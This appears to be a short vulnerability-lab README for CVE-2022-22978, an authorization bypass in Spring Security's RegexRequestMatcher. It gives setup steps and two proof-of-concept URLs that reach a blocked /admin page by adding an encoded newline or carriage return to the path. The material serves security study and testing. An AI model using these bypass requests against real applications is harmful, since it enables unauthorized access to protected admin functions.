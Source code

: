 # CVE-2022-22978

Spring Security 5.5.6과 5.6.3, 지원되지 않는 오래된 버전에서 RegexRequestMatcher가 일부 servlet container에서 우회할 수 있도록 잘못 구성하는 것이 쉽다.
Applications using RegexRequestMatcher with `.` in the regular expression are possibly vulnerable to an authorization bypass.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## Vulnerability Environment

After server is started, browse to <http://your-ip:8080/admin> to see that access to the admin page is blocked.

![](forbidden.png)

## Vulnerability Reproduce

Send the following request to access the admin page:

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](bypassed.png)
